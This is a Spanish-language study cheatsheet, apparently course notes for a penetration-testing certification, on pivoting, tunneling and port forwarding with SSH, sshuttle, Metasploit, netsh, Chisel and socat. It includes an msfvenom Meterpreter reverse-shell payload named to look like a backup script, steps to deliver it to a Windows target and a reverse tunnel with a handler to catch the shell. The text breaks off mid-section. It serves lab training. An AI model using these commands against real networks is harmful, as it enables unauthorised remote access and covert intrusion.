


# Pivoting, Tunneling, and Port Forwarding — Cheatsheet

> 📋 Cheatsheet de referencia (comandos, tablas, metodología) — **no** es un writeup de laboratorio con capturas. Para los writeups con capturas de Skills Assessments resueltos, ver `$ ls modulos/` en el README principal.

## Contenido

- [Pivoting, Tunneling y Port Forwarding — Índice, cheatsheet y metodología](#pivoting-tunneling-y-port-forwarding--índice-cheatsheet-y-metodología)
- [Introducción a Pivoting, Tunelización y Redirección de Puertos](#introducción-a-pivoting-tunelización-y-redirección-de-puertos)
- [Redirección local de puertos con SSH (`-L`)](#redirección-local-de-puertos-con-ssh--l)
- [Redirección dinámica de puertos con SSH (`-D`) y tunelización SOCKS](#redirección-dinámica-de-puertos-con-ssh--d-y-tunelización-socks)
- [Redirección remota (reversa) de puertos con SSH (`-R`)](#redirección-remota-reversa-de-puertos-con-ssh--r)
- [Pivotaje SSH con Sshuttle](#pivotaje-ssh-con-sshuttle)
- [Pivoting con Metasploit (autoroute, socks_proxy, portfwd)](#pivoting-con-metasploit-autoroute-socksproxy-portfwd)
- [Chisel y Socat](#chisel-y-socat)
- [Redirección de puertos en Windows (netsh, Plink, SocksOverRDP)](#redirección-de-puertos-en-windows-netsh-plink-socksoverrdp)
- [Túneles de último recurso: rpivot, dnscat2 e ICMP (ptunnel-ng)](#túneles-de-último-recurso-rpivot-dnscat2-e-icmp-ptunnel-ng)

---

## Pivoting, Tunneling y Port Forwarding — Índice, cheatsheet y metodología

Nota índice del módulo: enlaces a todas las notas, **qué técnica elegir según lo que tengas disponible**, y la cheatsheet completa.

---

### Índice de notas

- **Conceptos** → **Introducción a Pivoting, Tunelización y Redirección de Puertos**
- **SSH** → **Redirección Local de Puertos con SSH** · **Redirección Dinámica de Puertos con SSH y Tunelización SOCKS** · **Redirección Remota (Reversa) de Puertos con SSH** · **Pivotaje SSH con Sshuttle**
- **Sin SSH / Metasploit** → **Pivoting con Metasploit (autoroute, socks_proxy, portfwd)** · **Chisel y Socat**
- **Windows como pivote** → **Redirección de Puertos en Windows (netsh, Plink, SocksOverRDP)**
- **Último recurso (solo HTTP-proxy/DNS/ICMP de salida)** → **Túneles de último recurso (rpivot, dnscat2, ICMP con ptunnel-ng)**

---

### Metodología — qué técnica elegir

1. **Al aterrizar**: comprueba privilegios, interfaces y tabla de rutas → **Introducción a Pivoting, Tunelización y Redirección de Puertos**. ¿Es el host **dual-homed**? Es tu candidato a pivote.
2. **¿Solo necesitas UN servicio concreto detrás del pivote?** → **redirección local** (`ssh -L` / `portfwd add`).
3. **¿Necesitas acceso a TODA una red interna?** → SOCKS dinámico: **`ssh -D` + proxychains**, **sshuttle** (sin proxychains) o **`socks_proxy` de Metasploit** si no tienes SSH.
4. **¿El objetivo no puede alcanzarte a ti, pero tú sí llegas a él una vez?** → **`ssh -R`** o **Chisel en modo reverso** (sin SSH).
5. **¿El pivote es Windows sin SSH?** → **netsh portproxy, Plink o SocksOverRDP**.
6. **¿Todo lo anterior está bloqueado por firewall, y solo sale un proxy HTTP, DNS o ICMP?** → **Túneles de último recurso (rpivot, dnscat2, ICMP con ptunnel-ng)**.



> [!TIP]
> **Regla general**
> Empieza siempre por lo más simple y rápido (`ssh -L`/`-D`, sshuttle). Sube de complejidad (Chisel, Metasploit) solo si no hay SSH. Los túneles DNS/ICMP son el último cartucho — lentos y frágiles, pero a veces la única salida.

---

### Cheatsheet

#### Conceptos y reconocimiento

| Comando | Qué hace |
|---------|----------|
| `ifconfig` / `ip a` · `ipconfig` | Interfaces de red (Linux / Windows) |
| `netstat -r` / `ip route` · `route print` | Tabla de rutas (Linux / Windows) |
| `nmap -sT -p<puertos> <IP>` | Descubrir qué puertos hay detrás del pivote |

#### SSH

| Comando | Qué hace |
|---------|----------|
| `ssh -L <local>:localhost:<remoto> <user>@<pivote>` | Redirección local (un servicio) |
| `ssh -D <puerto> <user>@<pivote>` → proxychains | SOCKS dinámico (toda la red) |
| `ssh -R <IP_pivote>:<p_obj>:0.0.0.0:<p_tuyo> <user>@<pivote> -vN` | Redirección reversa (el objetivo no te alcanza) |
| `sudo sshuttle -r <user>@<pivote> <red/CIDR> -v` | "VPN" sobre SSH, sin proxychains |

#### Metasploit / Meterpreter

| Comando | Qué hace |
|---------|----------|
| `use post/multi/manage/autoroute` → `set SUBNET` → `run` | Enrutar red interna dentro de Metasploit |
| `use auxiliary/server/socks_proxy` → `run` → `jobs` | SOCKS sin necesitar SSH |
| `portfwd add -l <local> -p <remoto> -r <IP>` | Redirección local vía Meterpreter |
| `portfwd add -R -l <p_obj> -p <p_tuyo> -L <tu_IP>` | Redirección reversa vía Meterpreter |

#### Windows como pivote

| Comando | Qué hace |
|---------|----------|
| `netsh interface portproxy add v4tov4 listenport=<p> listenaddress=<IP> connectport=<p> connectaddress=<IP>` | Redirección local nativa |
| `plink -D <puerto> <user>@<IP>` | SOCKS dinámico desde Windows |
| `regsvr32.exe SocksOverRDP-Plugin.dll` | SOCKS reaprovechando una sesión RDP |

#### Chisel / Socat (sin SSH)

| Comando | Qué hace |
|---------|----------|
| `chisel server -v -p <puerto> --socks5` / `chisel client <IP>:<puerto> socks` | SOCKS modo directo |
| `chisel server -p <puerto> --reverse -v` / `chisel client <IP_atacante>:<puerto> R:socks` | SOCKS modo reverso |
| `socat TCP4-LISTEN:<p>,fork TCP4:<destino>:<p2>` | Relay TCP simple |

#### Último recurso

| Comando | Qué hace |
|---------|----------|
| `rpivot`: `server.py --proxy-port --server-port` / `client.py --server-ip --server-port` | Pivoting vía proxy HTTP (NTLM opcional) |
| `dnscat2`: `ruby dnscat2.rb --dns host=,port=53,domain=` / `Start-Dnscat2 -DNSserver -Domain -PreSharedSecret` | Tunelización sobre DNS |
| `ptunnel-ng -r<IP> -R22` / `ptunnel-ng -p<IP> -l2222 -r<IP> -R22` → `ssh -p2222 localhost` | Tunelización sobre ICMP |

---

Relacionado: **0 - Metasploit (Índice y cheatsheet)** · **0 - File Transfers (Índice y guía)** · **0 - CPTS (Índice general)**

---

## Introducción a Pivoting, Tunelización y Redirección de Puertos

Técnicas para **adentrarse en una red** una vez tienes un punto de apoyo, cuando el objetivo final no es directamente alcanzable desde tu máquina de ataque.

---

### Tres conceptos que se confunden fácil

| Concepto | Qué es | Ejemplo |
|----------|--------|---------|
| **Movimiento lateral** | Ampliar el acceso a otros **hosts/apps/servicios** dentro del mismo segmento de red ya alcanzable. A menudo permite escalar privilegios entre hosts. | Obtienes admin local en un Windows, encuentras 3 Windows más en la red, la misma credencial sirve en uno de ellos → te mueves ahí. |
| **Pivoting** | Usar un host comprometido como **puente** para llegar a una red que **no era alcanzable** directamente desde tu posición inicial. | La red objetivo está separada física y lógicamente; comprometes una estación de ingeniería **dual-homed** (dos NICs, en dos redes distintas) y la usas de puente hacia la red operacional. |
| **Tunelización** | **Encapsular/ocultar** tráfico dentro de otro protocolo para que pase desapercibido o atraviese restricciones de red. | C2 camuflado dentro de peticiones HTTP GET/POST que parecen tráfico web normal. |

> [!TIP]
> **Cómo se relacionan**
> El pivoting necesita casi siempre **redirección de puertos** (abrir un camino de red a través del host puente) y a menudo se apoya en **tunelización** (meter ese tráfico dentro de un protocolo permitido, como SSH, HTTPS, DNS o ICMP) cuando el camino directo está bloqueado o monitorizado.



---

### Al aterrizar en un host: qué comprobar primero

Nada más obtener acceso a un host nuevo, antes de nada:

- **Nivel de privilegio** (`whoami`, `whoami /priv`, `id`) — condiciona qué herramientas de pivoting puedes usar (p. ej. `netsh portproxy` en Windows no necesita admin, pero `autoroute` en Meterpreter sí privilegios de red).
- **Conexiones de red** (qué interfaces tiene, a qué segmentos llega) — ¿es un host **dual-homed**? Eso lo convierte en candidato a pivote.
- **Software de VPN o acceso remoto** ya instalado — puede ser un camino de pivoting ya preparado por la propia organización (y una vía interesante si tiene credenciales guardadas).

> [!NOTE]
> **La interfaz `tun0`**
> En tu propia máquina de ataque, la interfaz `tun0` indica que tienes una **conexión VPN activa** (típicamente la VPN de HTB/laboratorio). Es tu "red A" de referencia al dibujar el mapa de redes.

---

### El networking detrás del pivotaje: la tabla de rutas

Antes de montar cualquier túnel, identifica a qué redes llega cada host (la tuya y la del pivote):

```bash
netstat -r      # Linux — tabla de rutas IPv4
ip route        # Linux — alternativa moderna
```
```cmd
ipconfig        # Windows — todas las interfaces y sus redes
route print     # Windows — tabla de rutas
```

> [!TIP]
> **Dibuja el mapa de redes**
> Antes de elegir técnica, anota: qué redes ve cada host comprometido, qué puertos/servicios hay en cada red y qué protocolos de salida están permitidos (¿solo SSH? ¿HTTP? ¿DNS?). Eso determina si te sirve un simple `ssh -D`, necesitas Chisel, o tienes que recurrir a un túnel DNS/ICMP de último recurso.

---

### Redirección de puertos (port forwarding) — de qué va el resto del módulo

Redirigir una solicitud de un puerto a otro, normalmente sobre **TCP**, para poder llegar a un servicio que de otra forma no sería alcanzable. Es el bloque de construcción básico de todo lo demás en este módulo:

- ****Redirección Local de Puertos con SSH**** — acceder a un puerto del lado del pivote.
- ****Redirección Dinámica de Puertos con SSH y Tunelización SOCKS**** — convertir el pivote en un proxy SOCKS para toda una red.
- ****Redirección Remota (Reversa) de Puertos con SSH**** — cuando es el pivote el que necesita alcanzarte a ti.
- ****Pivoting con Metasploit (autoroute, socks_proxy, portfwd)**** — las mismas ideas, integradas en una sesión Meterpreter.
- ****Redirección de Puertos en Windows (netsh, Plink, SocksOverRDP)**** — cuando el host pivote es Windows y no tienes SSH a mano.
- ****Chisel y Socat**** — herramientas standalone, sin depender de SSH.
- ****Pivotaje SSH con Sshuttle**** — una "VPN" sobre SSH que evita montar proxychains a mano.
- ****Túneles de último recurso (rpivot, dnscat2, ICMP con ptunnel-ng)**** — cuando solo tienes HTTP-proxy, DNS o ICMP de salida.

---

### Resumen rápido (cheatsheet)

| Comando | Qué hace |
|---------|----------|
| `ifconfig` / `ip a` | Interfaces de red (Linux) |
| `ipconfig` | Interfaces de red (Windows) |
| `netstat -r` / `ip route` | Tabla de rutas (Linux) |
| `route print` | Tabla de rutas (Windows) |
| `whoami` / `whoami /priv` / `id` | Nivel de privilegio al aterrizar |

---

Relacionado: **0 - Pivoting, Tunneling y Port Forwarding (Índice y cheatsheet)**

---

## Redirección local de puertos con SSH (`-L`)

La redirección local te lleva un puerto **del lado del pivote** a tu propia máquina, como si el servicio corriera en tu `localhost`.

> [!NOTE]
> **Caso de uso típico**
> Nmap encuentra el puerto SSH abierto en el pivote, y detrás de él (solo accesible desde dentro) hay un MySQL en el 3306. En vez de entrar por SSH y usar el cliente `mysql` desde dentro del servidor, rediriges ese 3306 a tu propio equipo y usas tus herramientas locales directamente contra él.

```bash
nmap -sT -p22,3306 <IP_del_pivote>
```
Primero confirma qué puertos hay disponibles en el pivote.

```bash
ssh -L 1234:localhost:3306 ubuntu@<IP_del_pivote>
```
`-L` le dice al cliente SSH que pida al servidor SSH **redirigir todo lo que envíes a tu puerto local `1234`** hacia `localhost:3306` — pero ese `localhost` es relativo **al servidor SSH** (el pivote), no al tuyo. Tras esto, el servicio MySQL del pivote queda disponible en `localhost:1234` en tu propia máquina.

```bash
netstat -antp | grep 1234
```
Confirma que el túnel está escuchando en tu puerto local.

```bash
nmap -v -sV -p1234 localhost
```
Puedes incluso lanzar Nmap **contra tu propio túnel** para verificar el servicio redirigido.

---

### Redirigiendo varios puertos a la vez

```bash
ssh -L 1234:localhost:3306 -L 8080:localhost:80 ubuntu@<IP_del_pivote>
```
Repite `-L` tantas veces como puertos necesites en la misma conexión SSH — aquí, 3306 (MySQL) y 80 (HTTP) del pivote, ambos a tu máquina.

---

### Resumen rápido (cheatsheet)

| Comando | Qué hace |
|---------|----------|
| `ssh -L <puerto_local>:localhost:<puerto_remoto> <user>@<pivote>` | Redirigir un puerto del pivote a tu máquina |
| `ssh -L <p1>:localhost:<r1> -L <p2>:localhost:<r2> <user>@<pivote>` | Varios puertos en una sola conexión |
| `netstat -antp \| grep <puerto_local>` | Confirmar que el túnel está escuchando |
| `nmap -v -sV -p<puerto_local> localhost` | Escanear el servicio ya redirigido |

---

Relacionado: **Redirección Dinámica de Puertos con SSH y Tunelización SOCKS** (cuando necesitas acceder a *toda* una red, no solo un puerto) · **Redirección Remota (Reversa) de Puertos con SSH** · **0 - Pivoting, Tunneling y Port Forwarding (Índice y cheatsheet)**

---

## Redirección dinámica de puertos con SSH (`-D`) y tunelización SOCKS

A diferencia de **la redirección local** (un puerto concreto), la redirección **dinámica** convierte al pivote en un **proxy SOCKS**: cualquier herramienta que sepas enrutar a través de él puede llegar a **toda la red** que ve el pivote, no solo a un servicio.

```bash
ssh -D 9050 ubuntu@10.129.202.64
```
`-D` pide al servidor SSH que habilite la redirección dinámica. El cliente SSH empieza a escuchar en `localhost:9050`; todo lo que envíes ahí se transmite **a toda la red que ve el pivote** (ej. `172.16.5.0/23`) a través del túnel SSH.

---

### Proxychains — enrutar herramientas a través del SOCKS

Una vez el túnel dinámico está arriba, necesitas una herramienta que sepa enrutar tráfico de **cualquier programa** a través del puerto `9050`: **proxychains**.

```bash
tail -4 /etc/proxychains.conf
```
Comprueba las últimas líneas del fichero de configuración. Añade (si no está ya) al final:

```
socks4  127.0.0.1 9050
```

> [!NOTE]
> **SOCKS4 vs SOCKS5**
> `socks4 127.0.0.1 9050` o `socks5 127.0.0.1 1080` — SOCKS5 soporta resolución DNS remota y UDP, SOCKS4 no. El puerto depende de lo que hayas elegido en `ssh -D <puerto>` (o del módulo `socks_proxy` de Metasploit, ver **Pivoting con Metasploit (autoroute, socks_proxy, portfwd)**).

#### Usarlo

```bash
proxychains nmap -v -sn 172.16.5.1-200
```
Barrido de hosts vivos en la red interna, con el tráfico de Nmap pasando por el proxy SOCKS.

```bash
proxychains nmap -v -Pn -sT 172.16.5.19
```
Escaneo de puertos de un host concreto. **`-Pn`** (sin descubrimiento por ping) y **`-sT`** (conexión TCP completa, no SYN) son obligatorios con proxychains: un proxy SOCKS no soporta paquetes raw ni el escaneo SYN half-open.

```bash
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```
Conectar por RDP a un host interno a través del proxy.

```bash
proxychains msfconsole
```
También se puede meter **Metasploit entero** detrás de proxychains, para que todos sus módulos (exploits, escáneres, `rdp_scanner`...) atraviesen el túnel:
```
msf6 > search rdp_scanner
```

> [!WARNING]
> **proxychains ralentiza y limita**
> Todo pasa por TCP a través de un único túnel SSH — es lento y no soporta escaneos SYN. Para un pivoting más ágil (o si no tienes SSH), ver **Chisel y Socat** o **Pivotaje SSH con Sshuttle** (evita tener que anteponer `proxychains` a cada comando).

---

### Resumen rápido (cheatsheet)

| Comando | Qué hace |
|---------|----------|
| `ssh -D <puerto> <user>@<pivote>` | Levantar el proxy SOCKS dinámico |
| `socks4/socks5 127.0.0.1 <puerto>` en `/etc/proxychains.conf` | Apuntar proxychains al túnel |
| `proxychains nmap -v -sn <rango>` | Barrido de hosts a través del túnel |
| `proxychains nmap -v -Pn -sT <IP>` | Escaneo de puertos (obligatorio `-Pn -sT`) |
| `proxychains xfreerdp /v:<IP> /u:<user> /p:<pass>` | RDP a través del túnel |
| `proxychains msfconsole` → `search rdp_scanner` | Metasploit entero a través del túnel |

---

Relacionado: **Redirección Local de Puertos con SSH** · **Pivotaje SSH con Sshuttle** (alternativa sin proxychains) · **Chisel y Socat** · **Pivoting con Metasploit (autoroute, socks_proxy, portfwd)** · **0 - Pivoting, Tunneling y Port Forwarding (Índice y cheatsheet)**

---

## Redirección remota (reversa) de puertos con SSH (`-R`)

**La redirección local** te acerca un puerto del pivote a ti. La **remota hace lo contrario**: hace que sea el **pivote (o un objetivo detrás de él)** quien te alcance a ti — imprescindible cuando el objetivo no te puede marcar directamente, pero el pivote sí llega a ambos lados.

> [!NOTE]
> **Caso de uso típico**
> Tienes acceso SSH a un servidor Ubuntu que hace de puente, y detrás de él un Windows en una red interna sin salida directa a tu atacante. Quieres una **reverse shell Meterpreter** desde ese Windows, pero no puede alcanzarte a ti directamente — sí puede alcanzar al pivote.


---

### El flujo completo

#### 1. Generar el payload (apunta al pivote, no a ti)

```bash
msfvenom -p windows/x64/meterpreter/reverse_https lhost=<IP_interna_del_pivote> -f exe -o backupscript.exe LPORT=8080
```
Clave: `lhost=` es la **IP del pivote** (vista desde la red interna), no la tuya — el Windows objetivo solo puede llegar hasta ahí. Más opciones de payload en **MSFvenom** (módulo Metasploit).

#### 2. Llevar el payload hasta el pivote y de ahí al objetivo

Transferencia de ficheros (scp, servidor HTTP con Python, `Invoke-WebRequest`...) ya está cubierta a fondo en el módulo **File Transfers** — aquí solo el resumen del camino:
1. `scp backupscript.exe ubuntu@<IP_del_pivote>:~/` → sube el payload al pivote.
2. Desde el pivote, `python3 -m http.server 8123` → lo sirve por HTTP.
3. Desde el Windows objetivo, `Invoke-WebRequest -Uri "http://<IP_interna_del_pivote>:8123/backupscript.exe" -OutFile "C:\backupscript.exe"` → lo descarga.

#### 3. Levantar el túnel inverso en el pivote

```bash
ssh -R <IP_interna_del_pivote>:8080:0.0.0.0:8000 ubuntu@<IP_del_pivote> -vN
```

| Parte | Qué hace |
|-------|----------|
| `-R <IP>:8080:0.0.0.0:8000` | Pide al servidor SSH (el pivote) que **escuche en `<IP_interna_del_pivote>:8080`** y reenvíe cualquier conexión entrante ahí hacia `0.0.0.0:8000` en **tu** máquina atacante |
| `-v` | Verbose — útil para depurar si el túnel no sube |
| `-N` | No ejecutes un comando remoto / no abras shell de login — solo monta el túnel |

#### 4. Listener en tu máquina, apuntando al puerto de destino del túnel (no al LPORT del payload)

```
msf6 > use exploit/multi/handler
msf6 > set payload windows/x64/meterpreter/reverse_https
msf6 > set LHOST 0.0.0.0
msf6 > set LPORT 8000
msf6 > run
```

> [!WARNING]
> **El LPORT del handler ≠ el LPORT del payload**
> El payload llama a `<pivote>:8080` (su `LPORT` de generación). El túnel `-R` recoge eso en el pivote y lo **reenvía a tu puerto 8000**. Tu `multi/handler` tiene que escuchar en **8000**, el puerto de destino del túnel — no en 8080. Confundir estos dos puertos es el error más común con `-R`.

---

### Resumen rápido (cheatsheet)

| Comando | Qué hace |
|---------|----------|
| `msfvenom -p <payload> lhost=<IP_pivote> LPORT=<p_objetivo> -f <fmt> -o <out>` | Payload que llama al **pivote**, no a ti |
| `ssh -R <IP_pivote>:<p_objetivo>:0.0.0.0:<p_tuyo> <user>@<pivote> -vN` | Túnel inverso: lo que llega al pivote se reenvía a tu máquina |
| `set LHOST 0.0.0.0` / `set LPORT <p_tuyo>` (en `multi/handler`) | El listener escucha en el puerto de **destino** del túnel |

---

Relacionado: **Redirección Local de Puertos con SSH** · **0 - File Transfers (Índice y guía)** (transferir el payload) · **MSFvenom** · **Sesiones y Meterpreter** (módulo Metasploit) · **0 - Pivoting, Tunneling y Port Forwarding (Índice y cheatsheet)**

---

## Pivotaje SSH con Sshuttle

[Sshuttle](https://github.com/sshuttle/sshuttle) es una herramienta en Python que hace de **"VPN sobre SSH"**: en vez de **montar un SOCKS dinámico y anteponer `proxychains` a cada comando**, sshuttle añade una entrada en tus **`iptables`** para que **cualquier herramienta** enrute automáticamente hacia la red remota — sin configuración extra por comando.

> [!NOTE]
> **Limitación**
> Solo pivota **sobre SSH**. No ofrece las opciones de Tor o proxies HTTPS que sí tiene proxychains.

```bash
sudo apt-get install sshuttle
```

```bash
sudo sshuttle -r ubuntu@10.129.202.64 172.16.5.0/23 -v
```

| Parte | Qué hace |
|-------|----------|
| `-r ubuntu@<IP>` | Host pivote al que conectarse por SSH |
| `172.16.5.0/23` | Red(es) interna(s) a las que crear la ruta |
| `-v` | Verbose |

Tras esto, cualquier herramienta (nmap, xfreerdp, un navegador...) usa directamente las IPs de `172.16.5.0/23` **sin `proxychains` delante** — sshuttle ya redirige ese tráfico por el túnel a nivel de sistema.

---

### Sshuttle vs Proxychains+SSH -D

| | Proxychains + `ssh -D` | Sshuttle |
|---|---|---|
| Hay que anteponer la herramienta | `proxychains <cmd>` siempre | No — transparente a nivel de sistema |
| Escaneo SYN de Nmap | No soportado (`-sT`/`-Pn` obligatorios) | Tampoco (sigue siendo TCP sobre SSH) |
| Soporta Tor / proxies HTTPS | Sí | No, solo SSH |
| Instalación | Nativo (`ssh`) + proxychains | Paquete Python adicional |

---

### Resumen rápido (cheatsheet)

| Comando | Qué hace |
|---------|----------|
| `sudo apt-get install sshuttle` | Instalar |
| `sudo sshuttle -r <user>@<IP_pivote> <red/CIDR> -v` | Crear la ruta — tráfico a esa red pasa por el pivote sin proxychains |

---

Relacionado: **Redirección Dinámica de Puertos con SSH y Tunelización SOCKS** (la alternativa con proxychains) · **Chisel y Socat** · **0 - Pivoting, Tunneling y Port Forwarding (Índice y cheatsheet)**

---

## Pivoting con Metasploit (autoroute, socks_proxy, portfwd)

Las mismas ideas de **redirección local** y **dinámica**, pero integradas **dentro de una sesión Meterpreter** — sin depender de tener SSH en el host comprometido. Asume ya tienes una sesión Meterpreter activa (ver **Sesiones y Meterpreter**, módulo Metasploit).

---

### Descubrir hosts en la red interna

Antes de pivotar, confirma qué hay al otro lado:

```
msf6 > run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23
```
Módulo post que hace un barrido de ping contra todo el segmento **desde la sesión comprometida**.

Alternativas manuales (sin módulo, por si prefieres el `shell` nativo):

```bash
for i in {1..254}; do (ping -c 1 172.16.5.$i | grep "bytes from" &); done   # Linux
```
```cmd
for /L %i in (1,1,254) do ping 172.16.5.%i -n 1 -w 100 | find "Reply"       :: Windows (cmd)
```
```powershell
1..254 | % {"172.16.5.$($_): $(Test-Connection -count 1 -comp 172.16.5.$($_) -quiet)"}   # PowerShell
```

---

### autoroute — enrutar el framework entero hacia la red interna

```
msf6 > use post/multi/manage/autoroute
msf6 post(multi/manage/autoroute) > set SESSION <n>
msf6 post(multi/manage/autoroute) > set SUBNET 172.16.5.0
msf6 post(multi/manage/autoroute) > run
```
Añade una ruta **dentro del propio Metasploit** hacia `172.16.5.0/24` a través de la sesión Meterpreter indicada. A partir de aquí, **cualquier módulo de Metasploit** (exploits, scanners, `msf6 > use auxiliary/scanner/...`) puede alcanzar esa red directamente, sin montar nada más.

> [!TIP]
> **`autoroute` no te da SOCKS para herramientas externas**
> `autoroute` solo enruta tráfico **dentro de Metasploit**. Si necesitas que `nmap`, `xfreerdp` u otra herramienta externa lleguen a esa red, combínalo con `socks_proxy` (siguiente sección).

---

### socks_proxy — SOCKS para herramientas externas (sin SSH)

```
msf6 > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050
msf6 auxiliary(server/socks_proxy) > set VERSION 5
msf6 auxiliary(server/socks_proxy) > run
msf6 auxiliary(server/socks_proxy) > jobs
```
Levanta un proxy SOCKS **dentro de Metasploit**, que usa automáticamente las rutas de `autoroute` ya configuradas. `jobs` lista los módulos corriendo en segundo plano (el proxy queda como job).

```
socks5 127.0.0.1 9050
```
Añádelo a `/etc/proxychains.conf` igual que con **`ssh -D`**, y usa `proxychains <herramienta>` normalmente.

> [!NOTE]
> **Ventaja sobre `ssh -D`**
> No necesitas SSH en el host comprometido — solo la sesión Meterpreter. Útil cuando el acceso inicial no fue por SSH (ej. un exploit web, RCE vía `xp_cmdshell`...).

---

### portfwd — redirección de puertos dentro de Meterpreter

```
meterpreter > help portfwd
```

#### Local (equivalente a `ssh -L`)

```
meterpreter > portfwd add -l 3300 -p 3389 -r <IP_del_objetivo>
```
`-l` puerto local (en tu atacante) · `-p` puerto remoto (en el objetivo, visto desde el pivote) · `-r` IP del objetivo. Tras esto:

```bash
xfreerdp /v:localhost:3300 /u:victor /p:pass@123
```
Te conectas a **tu propio `localhost:3300`** y Meterpreter reenvía al RDP (3389) del objetivo interno.

#### Reversa (equivalente a `ssh -R`)

```
meterpreter > portfwd add -R -l 8081 -p 1234 -L <IP_de_tu_atacante>
```
`-R` modo reverso · `-l 8081` puerto que escucha **en el objetivo** (del lado de la sesión) · `-p 1234 -L <tu_IP>` hacia dónde reenviarlo — tu máquina, puerto 1234. Útil para que algo dentro de la red interna te alcance a ti sin SSH.

```
meterpreter > bg
```
Manda la sesión Meterpreter a segundo plano (como un `Ctrl+Z` de un proceso en Linux) para seguir trabajando en `msfconsole` sin perderla.

---

### Resumen rápido (cheatsheet)

| Comando | Qué hace |
|---------|----------|
| `run post/multi/gather/ping_sweep RHOSTS=<CIDR>` | Barrido de ping desde la sesión |
| `use post/multi/manage/autoroute` → `set SUBNET` → `run` | Enrutar la red interna dentro de Metasploit |
| `use auxiliary/server/socks_proxy` → `set SRVPORT`/`VERSION` → `run` → `jobs` | SOCKS para herramientas externas (vía proxychains) |
| `portfwd add -l <local> -p <remoto> -r <IP_objetivo>` | Redirección local (como `ssh -L`) |
| `portfwd add -R -l <puerto_objetivo> -p <puerto_tuyo> -L <tu_IP>` | Redirección reversa (como `ssh -R`) |
| `bg` | Sesión Meterpreter a segundo plano |

---

Relacionado: **Sesiones y Meterpreter** · **Metasploit** (módulo Metasploit) · **Redirección Local de Puertos con SSH** · **Redirección Dinámica de Puertos con SSH y Tunelización SOCKS** · **0 - Pivoting, Tunneling y Port Forwarding (Índice y cheatsheet)**

---

## Chisel y Socat

Dos herramientas **standalone** (binario único, sin dependencias) para pivotar cuando **no tienes SSH** en el host comprometido — muy habituales en máquinas CTF/CPTS donde el acceso inicial es un RCE web o similar, no una cuenta SSH.

---

### Chisel — túneles SOCKS rápidos, en ambos sentidos

[Chisel](https://github.com/jpillora/chisel) monta un túnel TCP sobre HTTP entre un **servidor** y un **cliente**; cualquiera de los dos extremos puede ofrecer el SOCKS. Se distribuye como **un único binario Go**, fácil de subir a cualquier host.

#### Modo directo (forward) — el pivote sí te alcanza a ti o tú a él

```bash
./chisel server -v -p 1234 --socks5
```
Arranca el servidor Chisel (normalmente **en tu atacante**), escuchando en el 1234, ofreciendo SOCKS5.

```bash
./chisel client -v 10.129.202.64:1234 socks
```
Desde el pivote, el cliente se conecta a tu servidor y expone el SOCKS **en el propio pivote**, puerto 1080 por defecto — úsalo con `proxychains` apuntando al pivote.

#### Modo reverso (añadido) — cuando el pivote no puede alcanzarte a ti

El caso más común en el examen: el objetivo **no tiene salida directa** hacia tu atacante (firewall, NAT), pero **tú sí puedes llegar a él** para dejar el binario y ejecutarlo una vez.

```bash
./chisel server -p 8000 --reverse -v
```
En **tu atacante**: servidor en modo `--reverse`, que acepta que sea el cliente quien **defina** el túnel a abrir (más flexible: sirve tanto para SOCKS como para redirigir puertos concretos).

```bash
./chisel client 10.10.14.5:8000 R:socks
```
En el **pivote/objetivo**: se conecta a tu servidor y, con `R:socks`, pide un **SOCKS reverso** — queda disponible en `127.0.0.1:1080` de **tu propia máquina atacante**, aunque el túnel lo haya iniciado el objetivo.

```bash
